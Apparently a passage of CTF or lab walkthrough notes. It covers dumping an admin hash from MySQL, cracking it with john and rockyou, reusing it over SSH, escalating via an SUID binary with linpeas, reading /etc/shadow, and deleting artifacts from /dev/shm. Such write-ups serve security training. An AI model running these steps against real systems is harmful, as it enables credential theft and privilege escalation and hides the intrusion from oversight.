 ```
mysql -u root -p
enter
```

- interesting table: administrators 
    - webadmin:Hash get
- `hashidentifier` 
    - input:hash > MD5(Wordpress) > cracking easily 

```
john --wordlist=/usr/share/wordlists/rockyou.txt md5.txt
john --show md5.txt
```

1. osCommerce admin page can but there's no way to put the creds
2. ssh creds (cuz maybe there's web server service's account.)

## Post-Exploitation (privilege escalation)

- after ssh,

- in host, webadmin 
```
whoami
id
```

- also do linpeash/linenum
    - `linpeas.sh | tee linpeas.output` > see only orange underline 
    - SUID env  exploit 

- in root, 
PoC -
```
whoami
id 
cd /root
cat /etc/shadow
```

- delete all artifacts /dev/shm